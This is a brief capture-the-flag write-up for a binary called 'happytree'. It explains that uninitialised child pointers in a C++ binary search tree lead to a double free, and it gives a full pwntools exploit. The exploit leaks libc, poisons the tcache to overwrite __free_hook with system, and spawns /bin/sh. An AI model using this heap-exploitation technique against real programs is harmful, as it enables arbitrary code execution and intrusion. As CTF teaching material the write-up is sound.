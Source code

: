 # happytree

The binary search tree implemented by C++, the vulnerability is that lchild and rchild are not cleared when creating a node, which can cause double free

```python
from pwn import *


p = process('./happytree')
elf = ELF('./happytree')
libc = ELF('./libc.so.6')


def Insert(data,con):
    p.sendlineafter('cmd> ',str(1))
    p.sendlineafter('data: ',str(data))
    p.sendafter('content: ',con)

def Del(data):
    p.sendlineafter('cmd> ',str(2))
    p.sendlineafter('data: ',str(data))

def Show(data):
    p.sendlineafter('cmd> ',str(3))
    p.sendlineafter('data: ',str(data))


Insert(0x46,'G')

for i in range(9):
    Insert(0x90+i,'A')

for i in range(8):
    Del(0x90+i)

for i in range(7):
    Insert(0x90+(6-i),'A')

Insert(0x80,'A')
Show(0x80)
p.recvuntil('content: ')
libc_base = u64(p.recv(6)+b'\x00\x00')-0x3ebd41
p.info('libc_base: '+hex(libc_base))
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']


Insert(0x39,'G')
Insert(0x38,'G')
Insert(0x40,'G')
Insert(0x41,'G')
Del(0x40)
Insert(0x40,'A')
Del(0x40)
Del(0x41)
Del(0x38)
Insert(0x28,p64(0x41))
Del(0x41)
Del(0x28)
Insert(0x20,p64(free_hook-0x8))
Insert(0x21,b'/bin/sh\x00'+p64(system))
Del(0x21)
```